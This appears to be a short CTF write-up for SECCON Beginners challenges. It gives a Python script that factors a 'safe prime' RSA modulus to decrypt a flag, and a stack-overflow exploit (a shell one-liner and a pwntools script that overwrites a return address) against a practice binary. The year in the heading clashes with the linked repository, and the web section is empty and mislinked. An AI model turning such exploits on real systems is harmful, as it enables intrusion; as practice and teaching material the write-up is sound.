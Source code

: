# SECCON Beginners CTF 2023

- https://github.com/SECCON/SECCON_Beginners_CTF_2024

## crypto

### Safe Prime

- https://www.youtube.com/watch?v=DPYlSEbIGsY&t=5m40s

#### Solution 1

```python
#!/usr/bin/env python3
from Crypto.Util.number import long_to_bytes
from sympy import symbols, Eq, solve
n = 292927367433510948901751902057717800692038691293351366163009654796102787183601223853665784238601655926920628800436003079044921928983307813012149143680956641439800408783429996002829316421340550469318295239640149707659994033143360850517185860496309968947622345912323183329662031340775767654881876683235701491291
c = 40791470236110804733312817275921324892019927976655404478966109115157033048751614414177683787333122984170869148886461684367352872341935843163852393126653174874958667177632653833127408726094823976937236033974500273341920433616691535827765625224845089258529412235827313525710616060854484132337663369013424587861
e = 65537
# q = 2 * p + 1
# n = p * q
# c = pow(m, e, n)
p = symbols('p')
eq = Eq(n, p*(2*p + 1))
solutions = solve(eq, p)
print(f'{solutions=}')
p = int(max(solutions))
q = 2*p + 1
phi = (p - 1) * (q - 1)
d = pow(e, -1, phi)
m = pow(c, d, n)
print(long_to_bytes(m).decode())
```

## pwnable

### simpleoverflow

- https://www.youtube.com/watch?v=DPYlSEbIGsY&t=2m30s

#### Solution 1

```zsh
python3 -c "print('A'*10)"|./chall
```

#### Solution 2

```python
#!/usr/bin/env python3
from pwn import ELF, context, p64, process, remote
context.log_level = 'debug'
exe = context.binary = ELF('./chall')
# io = exe.process([exe.path])
io = remote('::1', 9000)
io.sendlineafter(b'name:', b'A'*0xe + b'B'*0x8 + p64(0x4011ef))
io.interactive()
```

## web

#### wooorker

- https://github.com/SECCON/SECCON_Beginners_CTF_2024/tree/main/crypto/Safe%20Prime
